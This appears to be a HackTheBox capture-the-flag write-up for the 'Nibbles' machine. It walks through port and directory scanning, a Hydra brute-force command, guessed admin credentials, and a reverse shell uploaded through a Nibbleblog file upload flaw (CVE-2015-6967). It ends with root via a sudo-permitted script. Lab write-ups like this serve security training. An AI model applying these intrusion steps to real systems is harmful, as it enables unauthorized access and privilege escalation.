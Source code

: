 ```yaml
---
title: "Nibbles"
tags:
  - Easy
  - Linux
  - Guesswork
  - PHP
  - File Upload
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.75 |  | [Nibbles](https://app.hackthebox.com/machines/nibbles) |  |

---

## Enumeration

### Nmap

```
nmap -T4 -p- -sC -sV 10.10.10.75

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap reveals only OpenSSH 7.2p2 Ubuntu and Apache/2.4.18 running on the target.

### Web Enumeration

Visiting the web page at `http://10.10.10.75` revealed no significant content, but the page source provided a hint referencing `/nibbleblog` directory:

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Running Gobuster on `/nibbleblog` with `SecLists` revealed interesting paths.

```
gobuster dir -u 10.10.10.75/nibbleblog -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/update.php           (Status: 200) [Size: 1622]
/feed.php             (Status: 200) [Size: 300]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
/sitemap.php          (Status: 200) [Size: 401]
/install.php          (Status: 200) [Size: 78]
/index.php            (Status: 200) [Size: 2986]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
Progress: 39932 / 39934 (99.99%)
===============================================================
Finished
===============================================================
```

`/admin.php` is a login page that blocks IP address after a certain amount of failed attempts at login. We confirm the admin user in `/content/private/users.xml` and where the variable `session_fail_count` and blocked ip are stored. `/content/private/config.xml` contains the email `admin@nibbles.com`. `/update.php` identifies that the version of `Nibbleblog 4.0.3 "Coffee"` is running on web service.

### Metasploit (Alternate Way)

```
searchsploit nibbleblog            
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                      | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                       | php/remote/38489.rb
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

According to NIST, [CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967) is a unrestricted file upload vulnerability in the My Image plugin in Nibbleblog before 4.0.5 allows remote administrators to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in content/private/plugins/my_image/image.php.
> **_NOTE:_** The exploit requires admin credentials.

Attempts to brute force the credentials using Hydra were unsuccessful due to an IP address blacklist mechanism after multiple failed login attempts.

```
hydra -l admin -P rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=incorrect"
```

Based on research into Nibbleblog's default credentials and the HackTheBox Nibbles machine, it appears there is no documented method for systematically cracking the password aside from pure guesswork. The successful login using the password nibbles seems to rely entirely on luck or intuition tied to the machine's name. The valid credentials is `admin:nibbles`.

We follow the instructions on how to exploit Nibbleblog by uploading a `php` file to the `My Image` plugin.

In the admin panel, navigate to the `Plugins` > `My Image` Plugin.

![plugins](../assets/Nibbles/screenshot.plugins.png)

![image-config](../assets/Nibbles/screenshot.image-config.png)

We copied the PHP reverse shell script from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and create a file called `shell.php`. We must ensure that the IP address and port are changed accordingly. Once we have created the file, we keep the default fields, upload `shell.php` and hit `Save changees`.

![upload](../assets/Nibbles/screenshot.upload.png)

We set up a listener on the attacker machine and trigger the reverse shell by visting `10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php`. This allows us to gain reverse shell as `nibbler`.

![netcat](../assets/Nibbles/screenshot.netcat.png)

## Privilege Escalation

The first thing we do when we gain access to a user is inspect the sudo permissions. The `sudo -l` command reveals that the user `nibbler` can execute the script `/home/nibbler/personal/stuff/monitor.sh` as `root` without a password.

```
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

However, the directory path `/home/nibbler/personal/stuff/` does not exist and we must create the required path.

```
mkdir -p personal/stuff
```

![create-dir](../assets/Nibbles/screenshot.create-dir.png)

We create a simple bash script and run `chmod +x` to allow our file to be executable. Running the script as `sudo` escalates our privilege to `root` user.

```
#!/bin/sh 
bash
> monitor.sh
# or wget from attacker machine

ls -la
-rw-rw-rw- 1 nibbler nibbler 17 Jan 13 01:52 monitor.sh

chmod +x monitor.sh
sudo ./monitor.sh
```

The user and root flag are located in a `/home/nibbler/user.txt` and `/root/root.txt`, respectively.